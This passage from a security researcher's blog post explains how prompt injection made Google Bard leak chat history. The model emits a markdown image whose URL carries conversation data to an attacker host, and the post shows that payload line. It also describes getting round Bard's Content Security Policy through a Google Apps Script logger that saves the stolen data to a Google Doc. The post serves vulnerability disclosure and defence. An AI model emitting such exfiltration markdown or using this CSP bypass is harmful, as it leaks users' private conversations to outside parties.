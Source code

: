 When Google's LLM returns text it can return markdown elements, which Bard will render as HTML! This includes the capability to render images. 

Imagine the LLM returns the following text:

```
![Data Exfiltration in Progress](https://wuzzi.net/logo.png?goog=[DATA_EXFILTRATION])
```

This will be rendered as an HTML image tag with a `src` attribute pointing to the `attacker` server. 

```
<img src="https://wuzzi.net/logo.png?goog=[DATA_EXFILTRATION]">
```

The browser will automatically connect to the URL without user interaction to load the image. 

Using the power of the LLM we can summarize or access previous data in the chat context and append it accordingly to the URL.


[![Google Bard Data Exfil](/blog/images/2023/bard-exfil-logo.png)](/blog/images/2023/bard-exfil-logo.png)

When writing the exploit a prompt injection payload was quickly developed that would read the history of the conversation, and form a hyperlink that contained it. 

However image rendering was blocked by Google's Content Security Policy.

## Content Security Policy Bypass

To render images from an attacker controlled server there was an obstacle. Google has a Content Security Policy (CSP) that prevents loading images from arbitary locations. 

[![CSP policy](/blog/images/2023/bard-csp2.png)](/blog/images/2023/bard-csp2.png)

The CSP contains locations such as `*.google.com` and `*.googleusercontent.com`, which seemed quite broad. 

**It seemed that there should be a bypass!**

After some research I learned about `Google Apps Script`, that seemed most promising. 

`Apps Scripts` are like Office Macros. And they can be invoked via a URL and run on the `script.google.com` (respectiveley `googleusercontent.com`) domains!!

![appsscript bypass](/blog/images/2023/google-bard-appscript.png)

So, this seemed like a winner!

## Writing the Bard Logger

Equipped with that knowledge a "Bard Logger" in `Apps Script` was implemented.

The logger writes all query parameters appended to the invocation URL to a `Google Doc`, which is the exfiltration destination.

[![Bard Logger](/blog/images/2023/google-bard-logger.png)](/blog/images/2023/google-bard-logger.png)
